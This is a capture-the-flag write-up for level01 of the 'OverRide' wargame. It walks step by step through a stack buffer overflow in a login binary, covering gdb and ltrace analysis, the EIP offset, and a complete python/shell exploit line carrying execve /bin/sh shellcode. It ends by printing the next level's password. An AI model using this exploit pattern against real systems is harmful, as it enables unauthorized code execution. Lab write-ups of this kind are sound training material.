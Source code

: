 # Level 01

Once logged in, you will see a binary.

```
$ ssh localhost -p 4444 -l level01
	   ____                  ____  _     __
	  / __ \_   _____  _____/ __ \(_)___/ /__
	 / / / / | / / _ \/ ___/ /_/ / / __  / _ \
	/ /_/ /| |/ /  __/ /  / _, _/ / /_/ /  __/
	\____/ |___/\___/_/  /_/ |_/_/\__,_/\___/

                       Good luck & Have fun

   To start, ssh with level00/level00 on localhost:4242
level01@localhost's password:

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level01/level01
level01@OverRide:~$ ls
level01
level01@OverRide:~$
```

Let's run the program.

```
level01@OverRide:~$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: admin
verifying username....

nope, incorrect username...

level01@OverRide:~$
```

We don't know how the program works, so let's take a look at the binary.

```
GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
Copyright (C) 2012 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
For bug reporting instructions, please see:
<http://bugs.launchpad.net/gdb-linaro/>...
Reading symbols from /home/users/level01/level01...(no debugging symbols found)...done.

gdb-peda$ info functions
All defined functions:

Non-debugging symbols:
[...]
0x08048464  verify_user_name
0x080484a3  verify_user_pass
0x080484d0  main
[...]
gdb-peda$ info variables
[...]
0x0804a040  a_user_name
```

We see there are functions, and global variable declared. By decompiling the source, we at least have an idea what the username and password are: `"dat_wil"` and `"admin"`. Even with the "correct" username and password, we still haven't captured the flag.

```
level01@OverRide:~$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
admin
nope, incorrect password...

level01@OverRide:~$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
aaaaaaaaaaaaaaaa
nope, incorrect password...

level01@OverRide:~$
```

Checking the source again, it appears that the second call to `fgets` reads in more bytes (`0x64` = 100) than the buffer's declared size (`0x40` = 64).

Let's try a [buffer overflow pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/) to see if we can overwrite the `EIP` register for when it returns from `fgets`. This would allow us to insert a [shellcode](http://shell-storm.org/shellcode/files/shellcode-811.php) into memory through user input and then return to it by modifying the `EIP` register with input as well.

This is the PETA GDB output after inputting the username `"dat_wil"` and a 200-character buffer overflow pattern (see link above). Note the `EIP` register that has been overwritten by `0x37634136` (`"6Ac7"` as a string)

Inputs:
```
dat_wil
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
                                                                                ^ 81 characters in (therefore an offset of 80)
```

PETA GDB output:
```
[----------------------------------registers-----------------------------------]
EAX: 0x1
EBX: 0x33634132 ('2Ac3')
ECX: 0xffffffff
EDX: 0xf7fd08b8 --> 0x0
ESI: 0x0
EDI: 0x41346341 ('Ac4A')
EBP: 0x63413563 ('c5Ac')
ESP: 0xffffd720 ("Ac8Ac9Ad0Ad1Ad2")
EIP: 0x37634136 ('6Ac7')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x37634136
[------------------------------------stack-------------------------------------]
0000| 0xffffd720 ("Ac8Ac9Ad0Ad1Ad2")
0004| 0xffffd724 ("c9Ad0Ad1Ad2")
0008| 0xffffd728 ("0Ad1Ad2")
0012| 0xffffd72c --> 0x326441 ('Ad2')
0016| 0xffffd730 --> 0x0
0020| 0xffffd734 --> 0xffffd71c ("6Ac7Ac8Ac9Ad0Ad1Ad2")
0024| 0xffffd738 --> 0xffffd7bc --> 0xffffd8f5 ("TERM=xterm-256color")
0028| 0xffffd73c --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x37634136 in ?? ()
gdb-peda$ stack
0000| 0xffffd720 ("Ac8Ac9Ad0Ad1Ad2")
0004| 0xffffd724 ("c9Ad0Ad1Ad2")
0008| 0xffffd728 ("0Ad1Ad2")
0012| 0xffffd72c --> 0x326441 ('Ad2')
0016| 0xffffd730 --> 0x0
0020| 0xffffd734 --> 0xffffd71c ("6Ac7Ac8Ac9Ad0Ad1Ad2")
0024| 0xffffd738 --> 0xffffd7bc --> 0xffffd8f5 ("TERM=xterm-256color")
0028| 0xffffd73c --> 0x0
```

The last thing we need to create the exploit input is the address where our shellcode will start. We find this by looking at where `fgets` stores the input during its second call (`0xffffd6ec`). (Note: in testing, we've found that this address can change if you run the command on different machines. If this address doesn't work, you can recalculate it with the following `ltrace` function)

```
level01@OverRide:~$ ltrace ./level01 2> /tmp/ltrace.txt   # NOTE: sending ltrace output to a temp file
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
nope, incorrect password...

level01@OverRide:~$ cat /tmp/ltrace.txt
__libc_start_main(0x80484d0, 1, -10284, 0x80485c0, 0x8048630 <unfinished ...>
puts("********* ADMIN LOGIN PROMPT ***"...)                     = 39
printf("Enter Username: ")                                      = 16
fgets("dat_wil\n", 256, 0xf7fcfac0)                             = 0x0804a040
puts("verifying username....\n")                                = 24
puts("Enter Password: ")                                        = 17
fgets("Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab"..., 100, 0xf7fcfac0)   = 0xffffd6ec
puts("nope, incorrect password...\n")                           = 29
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```

Here's the steps we used to get to our final exploit.

First iteration:

```
dat_wil    # the username that we found by disassembling verify_user_name()
[  shellcode  ] + [  padding up to 80 chars  ] + [  address  ]
```

Next iteration:

```
dat_wil
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "B" * [  offset (80) - length of first (28) - 52  ] + [  `0xffffd6ec` in the correct endian-ness  ]
```

And now in Python:
```
python -c 'import struct; print "dat_wil\n" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "B"*52 + struct.pack("I", 0xffffd6ec)'
```

And now as a command:

```
(python -c 'import struct; print "dat_wil\n" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "B"*52 + struct.pack("I", 0xffffd6ec)' ; cat -) | ./level01
```

And now in action:
```
level01@OverRide:~$ (python -c 'import struct; print "dat_wil\n" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "B"*52 + struct.pack("I", 0xffffd6ec)' ; cat -) | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```
